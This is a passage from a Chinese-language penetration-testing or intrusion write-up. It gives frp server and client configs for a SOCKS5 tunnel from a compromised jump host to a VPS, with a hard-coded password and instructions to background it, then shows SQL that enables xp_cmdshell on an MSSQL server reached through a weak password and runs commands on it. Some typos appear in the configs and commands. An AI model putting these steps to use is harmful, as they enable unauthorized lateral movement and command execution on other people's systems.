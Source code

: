 项目地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp/releases/download/v0.37.1/frp_0.37.1_linux_amd64.tar.gz)

frp server

```php
[common]
bind_port = 8945
```

frp client

```php
[common]
server_addr = you vps ip
server_port = 8945
tls_enable = ture
pool_count = 5

[plugin_socks]
type = tcp
remote_port = 35145
plugin = socks5
# 认证 免认证把下面两行去掉
plugin_user = admin
plugin_passwd = Admin@123
use_encryption = true
use_compression = true
```

vps 上执行

```php
./fprs -c frps.ini
```

跳板机上执行

```php
./fprc -c frpc.ini
```

确定连接没问题之后 nohup &到后台，这里如果用的腾讯云或者阿里这种 vps 一定记得端口组里面开启对应的端口，否则连接不上，proxifier 确定代理可用。

![image.png](assets/1698900782-54fa8ed769881b54198b78ca9b19c0ef.png)

### 路径 3 运维机器

这里通过刚才 fscan 扫描到的 mssql 弱口令打的一台运维终端主机

```php
# 开启 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp_cmdshell', 1;RECONFIGURE;
# 命令执行
exec master..xp_cmdshell "whoami"
```
